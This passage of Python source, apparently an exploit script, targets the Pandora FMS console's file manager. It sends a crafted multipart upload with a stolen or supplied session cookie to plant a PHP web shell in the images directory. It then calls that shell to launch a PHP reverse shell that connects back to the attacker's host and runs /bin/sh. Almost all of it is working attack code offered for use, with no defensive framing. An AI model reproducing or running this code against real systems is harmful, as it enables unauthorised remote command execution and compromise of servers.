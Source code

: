 ```python
    'Content-Type': 'multipart/form-data; boundary=---------------------------308045185511758964171231871874',
    'Content-Length': '1289',
    'Connection': 'close',
    'Referer': f'http://{rhost}:{rport}/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1'
    }

    params = (
        ('sec', 'gsetup'),
        ('sec2', 'godmode/setup/file_manager')
    )

    cookies = {'PHPSESSID': cookie}

    # Basic PHP web shell with '???' parameter
    data = f'-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="file"; filename="{webName}"\r\nContent-Type: application/x-php\r\n\r\n<?php system($_GET[\'cmd\']);?>\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="umask"\r\n\r\n\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="decompress_sent"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="go"\r\n\r\nGo\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="real_directory"\r\n\r\n/var/www/pandora/pandora_console/images\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="directory"\r\n\r\nimages\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash"\r\n\r\n6427eed956c3b836eb0644629a183a9b\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="hash2"\r\n\r\n594175347dddf7a54cc03f6c6d0f04b4\r\n-----------------------------308045185511758964171231871874\r\nContent-Disposition: form-data; name="upload_file_or_zip"\r\n\r\n1\r\n-----------------------------308045185511758964171231871874--\r\n'

    # Try to upload the PHP web shell to the server
    try:
        r = requests.post(url, headers=headers, params=params, cookies=cookies, data=data, verify=False)
        print(f"{BLUE}[+] EXPLOIT: {YELLOW}Connected to web! Status Code: {r.status_code} [+]{END}")

    
    except:
        print(f"{RED}[!] ERROR: {YELLOW}Could not connect to web! Status Code: {r.status_code} [!]{END}")
        exit()

    
    loading(15)

def getShell(rhost,rport,lhost,lport):

    shell = f"php -r \'$sock=fsockopen(\"{lhost}\",{lport});exec(\"/bin/sh -i <&3 >&3 2>&3\");\'"
    
    try:
        requests.get(f'http://{rhost}:{rport}/pandora_console/images/{webName}?cmd={urllib.parse.quote_plus(shell)}',timeout=1)
        print(f"{RED}[!] ERROR: {YELLOW}Reverse shell could not connect! Make sure you have a local listener on {YELLOW}{lhost}:{lport}{END}\n")
    
    except:
```